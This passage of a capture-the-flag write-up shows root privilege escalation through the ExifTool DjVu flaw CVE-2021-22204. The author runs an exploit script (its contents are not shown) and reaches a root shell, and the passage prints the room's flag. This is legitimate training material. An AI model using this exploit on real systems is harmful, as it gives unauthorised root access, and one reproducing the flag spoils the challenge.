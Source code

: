 ```
stux@ubuntu:~$ exiftool -ver
12.05
```

The CVE number is CVE-2021-22204

## What is the utility used to create the PoC file?
We will use the djvumake utility to generate the payload.

## Escalate your privileges. What is the flag in root.txt?
This blog explains the vulnerability pretty well
https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/

Let's recreate it in a script and execute it.
```
stux@ubuntu:~$ ls
configfile           exploit.djvu  image.jpeg_original  payload.bzz
exiftool_exploit.sh  image.jpeg    payload              user.txt
stux@ubuntu:~$ chmod +x exiftool_exploit.sh
stux@ubuntu:~$ ./exiftool_exploit.sh 
Preparing payload
Preparing exploit
Writing exploit
    1 image files updated
Executing exploit
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# 
```
And we are root!
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}



## Get the content

```
git clone https://github.com/Konstantinos-Papanagnou/CMSpit
cd CMSpit
```

{% embed url="https://github.com/Konstantinos-Papanagnou/CMSpit" %}

<figure><img src="https://avatars.githubusercontent.com/u/63195954?v=4" alt=""><figcaption><p>Konstantinos-Papanagnou</p></figcaption></figure>
